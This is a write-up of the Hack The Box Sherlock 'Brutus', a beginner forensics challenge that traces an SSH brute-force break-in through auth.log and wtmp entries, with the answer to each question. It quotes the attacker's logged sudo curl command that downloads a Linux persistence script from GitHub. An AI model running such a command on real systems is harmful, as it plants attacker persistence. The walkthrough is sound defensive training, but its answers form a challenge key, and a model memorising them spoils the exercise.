 # 🔍 Sherlock - Brutus | HTB CTF

> Very Easy | auth.log + wtmp | brute-force, escalation, persistenza

## 🧠 Scenario

In questo Sherlock (molto easy) si analizza `auth.log` e `wtmp` per ricostruire un attacco brute-force su un server Confluence. Dopo l’accesso SSH, l’attaccante esegue varie azioni che possiamo tracciare nei log.

---

## 1️⃣ Analyze the auth.log. What is the IP address used by the attacker to carry out a brute force attack?

grep "Failed password" auth.log

Output:

Mar  6 06:31:33 ip-172-31-35-28 sshd[2329]: Failed password for invalid user admin from 65.2.161.68 port 46414 ssh2
Mar  6 06:31:33 ip-172-31-35-28 sshd[2333]: Failed password for invalid user admin from 65.2.161.68 port 46452 ssh2
Mar  6 06:31:34 ip-172-31-35-28 sshd[2352]: Failed password for backup from 65.2.161.68 port 46568 ssh2

Risposta: 65.2.161.68

## 2️⃣ The bruteforce attempts were successful. What is the username of the account?

grep "Accepted password" auth.log

Output:

Mar  6 06:19:54 ip-172-31-35-28 sshd[1465]: Accepted password for root from 203.101.190.9 port 42825 ssh2
Mar  6 06:31:40 ip-172-31-35-28 sshd[2411]: Accepted password for root from 65.2.161.68 port 34782 ssh2
Mar  6 06:32:44 ip-172-31-35-28 sshd[2491]: Accepted password for root from 65.2.161.68 port 53184 ssh2
Mar  6 06:37:34 ip-172-31-35-28 sshd[2667]: Accepted password for cyberjunkie from 65.2.161.68 port 43260 ssh2

Risposta: root

## 3️⃣ Identify the UTC timestamp when the attacker logged in manually

Uso lo script utmp.py su wtmp:

python3 utmp.py -o wtmp.out wtmp

cat wtmp.out | grep 65.2.161.68

Output:

"USER"  "2549"  "pts/1" "ts/1"  "root"  "65.2.161.68"   "0"     "0"     "0"     "2024/03/06 07:32:45"   "387923"    "65.2.161.68"
"USER"  "2667"  "pts/1" "ts/1"  "cyberjunkie"   "65.2.161.68"   "0"     "0"     "0"     "2024/03/06 07:37:35"   "475575"     "65.2.161.68"

Risposta: 2024-03-06 06:32:45 (UTC)

## 4️⃣ SSH login sessions are tracked... What is the session number?

grep "New session" auth.log

Output:

Mar  6 06:32:44 ip-172-31-35-28 systemd-logind[411]: New session 37 of user root.

Risposta: 37

## 5️⃣ The attacker added a new user. What is the name of this account?

Lo vedo in auth.log:

Mar  6 06:37:34 ip-172-31-35-28 sshd[2667]: Accepted password for cyberjunkie from 65.2.161.68 port 43260 ssh2

Risposta: cyberjunkie

## 6️⃣ MITRE ATT&CK sub-technique ID for persistence?

Risposta: T1136.001 – Create Account: Local Account

## 7️⃣ What time did the attacker's first SSH session end?

Sessione 37, quindi cerco logout in auth.log:

2024-03-06 06:37:24

Risposta: 2024-03-06 06:37:24

## 8️⃣ Comando sudo per scaricare uno script

grep 'sudo' auth.log

Output:

Mar  6 06:35:15 ip-172-31-35-28 usermod[2628]: add 'cyberjunkie' to group 'sudo'
...
Mar  6 06:39:38 ip-172-31-35-28 sudo: cyberjunkie : TTY=pts/1 ; PWD=/home/cyberjunkie ; USER=root ; COMMAND=/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh

Risposta:

/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh

## 🧠 Considerazioni finali

CTF easy ma utile per ripassare concetti chiave:

    Lettura e analisi auth.log

    Uso di wtmp e utmp.py

    Tracciare brute-force

    Capire la differenza tra login e autenticazione

    Identificare attività post-exploitation (persistence + escalation)

Autore: Saitt01
Tool usati: grep, utmp.py, auth.log, wtmp
